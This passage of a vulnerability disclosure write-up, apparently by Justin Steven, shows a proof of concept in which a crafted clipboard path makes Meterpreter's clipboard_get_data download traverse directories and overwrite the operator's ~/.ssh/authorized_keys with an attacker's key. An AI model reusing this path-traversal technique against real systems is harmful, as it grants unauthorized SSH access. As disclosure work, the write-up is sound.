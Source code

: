 On the Meterpreter machine, copy any file to the clipboard to ensure that our
patched code is triggered.

If we were to take a look at the contents of the clipboard via the Meterpreter
session, it would look quite strange:

```text
msf exploit(handler) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > use extapi
Loading extension extapi...WARNING: Local file /home/justin/work/metasploitsploit/metasploit-framework/data/meterpreter/ext_server_extapi.x64.dll is being used
success.

meterpreter > clipboard_get_data
Files captured at 2017-01-03 12:40:16.0185
==========================================
Remote Path : C:\doot\doot\..
File size   : 1354752 bytes

==========================================
```

Trigger the bug by downloading the attacker's clipboard contents to a directory
within your home directory:

```text
meterpreter > clipboard_get_data -d /home/justin/looted_clipboard
Files captured at 2017-01-03 12:41:08.0991
==========================================
Remote Path : C:\doot\doot\..
File size   : 1354752 bytes
mirroring   : C:\doot\doot\..\.ssh -> /home/justin/looted_clipboard/../.ssh
downloading : C:\doot\doot\..\.ssh\authorized_keys -> /home/justin/looted_clipboard/../.ssh/authorized_keys
download    : C:\doot\doot\..\.ssh\authorized_keys -> /home/justin/looted_clipboard/../.ssh/authorized_keys
mirrored    : C:\doot\doot\..\.ssh -> /home/justin/looted_clipboard/../.ssh
mirroring   : C:\doot\doot\..\doot -> /home/justin/looted_clipboard/../doot
mirrored    : C:\doot\doot\..\doot -> /home/justin/looted_clipboard/../doot

==========================================

```

`authorized_keys` now contains an evil SSH public key:

```text
meterpreter > ^Z
Background session 1? [y/N]

msf exploit(handler) > cat /home/justin/.ssh/authorized_keys
[*] exec: cat /home/justin/.ssh/authorized_keys

An evil SSH public key
```

---

Justin Steven

<https://twitter.com/justinsteven>
